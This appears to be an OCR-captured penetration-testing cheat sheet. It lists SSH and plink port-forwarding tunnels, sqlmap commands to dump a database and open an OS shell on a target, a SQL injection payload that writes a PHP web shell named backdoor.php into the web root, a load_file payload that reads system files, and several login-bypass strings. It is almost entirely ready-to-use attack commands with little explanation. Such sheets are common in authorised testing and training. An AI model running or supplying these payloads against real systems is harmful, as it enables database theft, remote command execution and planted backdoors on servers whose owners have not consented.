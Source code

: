 ## Remote port forwarding

### ssh <gateway> -R <remote port to bind>:<local host>:<local port>

## Dynamic port forwarding

### ssh -D <local proxy port> -p <remote port> <target>

## Plink local port forwarding

### plink -l root -pw pass -R 3389:<localhost>:3389 <remote host>

## SQL Injection

### # sqlmap crawl

### sqlmap -u http://10.10.10.10 --crawl=1

### sqlmap dump database

### sqlmap -u http://10.10.10.10 --dbms=mysql --dump

### sqlmap shell

### sqlmap -u http://10.10.10.10 --dbms=mysql --os-shell

## Upload php command injection file

### union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'

## Load file

### union all select 1,2,3,4,load_file("c:/windows/system32/drivers/etc/hosts"),6

## Bypasses

### ' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- - ' or 1=1 LIMIT 1# 'or 1# ' or 1=1 -- ' or 1=1 -- -

